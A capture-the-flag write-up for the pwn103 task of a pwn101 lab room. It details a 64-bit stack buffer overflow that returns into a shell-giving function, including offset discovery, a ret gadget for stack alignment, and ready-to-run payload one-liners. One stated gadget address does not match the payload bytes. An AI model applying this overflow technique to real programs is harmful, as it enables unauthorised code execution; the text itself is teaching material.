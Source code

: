 # How to exploit 103 task from the room pwn101 ?

## exploit

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

## Why ?

begin with the begining, find the vector:

- check the first input
- check the others possibilities of the menu

so, let's check the first input after the try of adding a lot of 'A' we don't find the vector here now, let check the others menu:

1. Announcements: juste some text so not input
2. Rules: same as Announcements
3. Général: check with a lot of 'A' and let's go ! we find the enter !

now, let's exploit !

### find the size of the buffer

we're going to find the size of the buffer by using `msf-pattern` and `gdb-peda`:

```bash
msf-pattern_create -l 100
```

then run gdb peda:
![](img/gdb.png)

the use msf-patter_offset:

```bash
msf-pattern_offset -q 0x4132624131624130
```

### find interesting functions

and we find that the buffer has a size of 32 or 0x20 bytes now, we have to find how to exploit let's open cutter to find some intersting funtions or others:

![](img/cutter.png)

so, we finds the function admins_only who give a shell a the adress `0x00401554`

## PWN !

now we have all to exploit:
- buffer size
- function to call

### let's build the exploit !

payload = buffer_size + 8bytes to write into the RSP registre + admins_only adress

let's try it !

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103 
```

saddly, it's didn't work...

![](img/fail.png)

So why ?!
it's because the movaps issue: [link to a ressource](https://ropemporium.com/guide.html)\
the solution from the website:

	The MOVAPS issue
	If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so, let's find a ret intruction and add it into our payload

### find a ret instruction

let's use `ROPgadget` to find a ret instruction:
```bash
ROPgadget --binary pwn103.pwn103 | grep ret
```
![](img/ROPgadget.png)

so let's add `0x0000000000401016` to the payload

## Exploitation

new payload = buffer_size + 8bits to write into the RSP registre + ret_adress + admins_only adress

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

![](img/exploit.png)

GG !

## PS:

After viewing a stream of [topklean](https://twitch.tv/topklean) i see another solution without bypass the MOVAPS issue:

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x7a\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

